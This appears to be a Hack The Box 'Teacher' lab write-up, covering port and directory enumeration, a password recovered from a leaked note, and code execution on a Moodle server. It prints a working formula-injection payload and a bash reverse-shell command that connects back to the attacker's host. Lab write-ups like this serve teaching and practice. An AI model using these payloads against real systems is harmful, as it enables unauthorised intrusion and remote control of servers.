 # HTB - Teacher
## OS - Linux

Teacher's IP address is 10.10.10.153. Started with an nmap scan.
```
$nmap -sC -sV -oN nmap 10.10.10.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 07:59 PDT
Nmap scan report for 10.10.10.153
Host is up (0.088s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.11 seconds
```


Only port 80 is open.
The web interface shows a web page for school. There's an announcement that the web portal was new, that the students can submit their work. Only gallery.html seems to be working.

In the gallery page, the teacher photos are seen. One of the photos is not visible, the rest are not rendered properly. If we view the source of the page, we see that the photo that is not rendered is http://10.10.10.153/images/5.png.

When we curl that image, we see a note.
```
$curl http://10.10.10.153/images/5.png
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni

```

Ran dirbuster but it stopped after a few errors. Gobuster worked fine.

```
$gobuster dir -t 40 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.153
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.153
[+] Threads:        40
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/06 12:05:28 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/moodle (Status: 301)

```
/moodle shows the Teachers page, and lists Algebra course with teacher Giovanni Chhatta.

Giovanni's link - http://10.10.10.153/moodle/user/view.php?id=3&course=1
Algebra course link - http://10.10.10.153/moodle/course/view.php?id=2

We try to login as giovanni using part of the password given above, and then enumerate using intruder to find the full password.

giovanni's password is Th4C00lTheacha#.

Exploring the site as giovanni shows a message to admin:
```
Hey admin.

How am I supposed to create a quiz? I'm kinda in a hurry since I need this for tomorrow.

Kind regards,
Giovanni
```

Took a while to repro this part, but finally, the formula worked for /*{a*/`$_REQUEST[rad]`;//{x}}

and then in the URL:
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7

added the parameter:
&rad=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/6000+0>%261'

Got a nc shell.


